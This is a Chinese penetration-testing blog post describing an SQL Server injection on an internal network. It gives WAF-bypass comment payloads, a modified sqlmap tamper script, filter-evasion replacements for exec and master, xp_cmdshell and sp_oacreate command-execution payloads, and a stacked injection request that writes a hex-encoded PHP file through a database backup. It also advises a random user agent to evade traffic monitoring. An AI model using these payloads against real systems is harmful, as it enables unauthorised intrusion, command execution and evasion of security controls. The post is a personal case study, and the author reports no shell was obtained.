 ```yaml
---
date: "2020-01-01T00:00:00Z"
description: 通常情况下，遇到SQL Server注入点，我会比较关注是否是DBA权限，如果是，那么就可能拿到执行命令的权限，进而反弹到Ｃ2上，方便后续的后渗透工作。
title: SQL Server DBA WriteFile
url: /archivers/2020-01-01/3
---
```


## 0x01 前言

本文非基础类的普及文章，主要分享内网中遇到的一个有趣案例。

## 0x02 Bypass注入点

通常情况下，遇到SQL Server注入点，我会比较关注是否是DBA权限，如果是，那么就可能拿到执行命令的权限，进而反弹到Ｃ2上，方便后续的后渗透工作。

一开始在一处比较复杂的功能点发现了SQL Server的注入，也是首先利用AND进行判断：

![2020-01-03-13-13-15](../../../static/images/7fe2d620-4f5f-11ec-8635-00d861bf4abb.png)

参数：ModuleType存在注入点，但是后面有一层站点全局输入的检测机制，从简单的测试来看，是不存在语法分析的一种，比较容易绕过。

我尝试了以下方案：

1. `and -> And`
2. `and -> /**/And`
3. `and -> /*xsww!s*/And`
4. `and -> /*xswwS1154-_[0)}!s*/And`
5. `and -> /***/And`

最终发现第五种可以绕过，使得后端无法辨别`/***/`是否和And是一个本体。

那么我猜想到了一个简单的表达式，似乎和这个过滤规则比较相向：`/*\w{0,}*/`

![2020-01-03-13-13-28](../../../static/images/802bac1a-4f5f-11ec-9e26-00d861bf4abb.png)

## 0x03 tamper 自动化实现

这里我比较懒，直接改了以下space2comment.py，这个脚本在Kali Linux中的sqlmap目录下：

![2020-01-03-13-13-37](../../../static/images/806ce52c-4f5f-11ec-b8ca-00d861bf4abb.png)

核心代码：

``` python
for i in xrange(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += "/**/"
                    continue

            elif payload[i] == '\'':
                quote = not quote

            elif payload[i] == '"':
                doublequote = not doublequote

            elif payload[i] == " " and not doublequote and not quote:
                retVal += "/**/"
                continue
```

只需要替换`/**/`即可：

![2020-01-03-13-13-49](../../../static/images/80aa0ec0-4f5f-11ec-b7ad-00d861bf4abb.png)

接着，就可以跑出注入了\~

PS：我比较习惯于添加`--random-agent`参数，理由是在注入的过程中，避免被流量感知设备发现。

![2020-01-03-13-14-00](../../../static/images/80ea6114-4f5f-11ec-8c7d-00d861bf4abb.png)

## 0x04 xp_cmdshell

到这一步的时候，我遇到了一个问题，SQLMAP调用exec master..xp_cmshell的时候被拦截了，因为后端还检测是否有`exec`、`master`，于是我还要将tamper加两句：

```
payload = payload.replace("exec","/***/Execute/***/")
payload = payload.replace("master..","/***//***/")
```

最终结果：`/***/execute/***//***/xp_cmdshell/***/'whoami'`

点击发包，还是无法执行，被360拦截了！

![2020-01-03-13-14-22](../../../static/images/81373b24-4f5f-11ec-bb26-00d861bf4abb.png)

这个Error Code 5 ，是Windows的错误代码，中文意思就是：“拒绝访问”。

现在xp_cmdshell被拦截的很多了，但是sp_oacreate应该可以使用的：


参考我之前写的一篇文章：[Regsvr32 ole对象](https://payloads.online/archivers/2019-07-19/1)


```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >C:\who.txt'
```

> 后续我发现该服务器无法出网，还是站库分离

**因此无法执行操作系统命令**

## 0x05 写入文件

在写文件这块，我浪费了大量的时间，首先要确定能否向站点目录写文件，当前写文件的操作是否被拦截等等因素。

一开始的思路是调用xp_cmdshell，采用echo去写，目前已无法执行命令，就此作罢，吸了一口芙蓉王，精神焕发，遂查到数据库备份的方式。

提交：

```
{"ClientType": "", "ClientGuid": "09a37ee1-5ec3-46db-9279-4cb066622e8d", "ModuleType": "A2501';use test222;create table [dbo].[test2] ([cmd] [image]);insert/***/into/***/test2(cmd) values(0x3c3f70687020706870696e666f28293b3f3e);backup database test222 to disk='C:\test2.bak' WITH DIFFERENTIAL,FORMAT;-- ", "IsBackEnd": false }
```

页面返回正常。

但是，我的站点目录如果是中文呢？在Burp里处理就非常麻烦！

还记得之前的IIS 7.5吗，**IIS在接收到一个请求后，会自动将数据进行Unicode解码，如果流量设备、WAF不支持此特性的话，就可以进行绕过**，这里我着重解决中文目录的问题。

![2020-01-03-13-14-38](../../../static/images/8185efc6-4f5f-11ec-b531-00d861bf4abb.png)

到这此文就结束了，我并没有成功Getshell，只是回顾我解决问题的思维方式，希望能对大家有用！

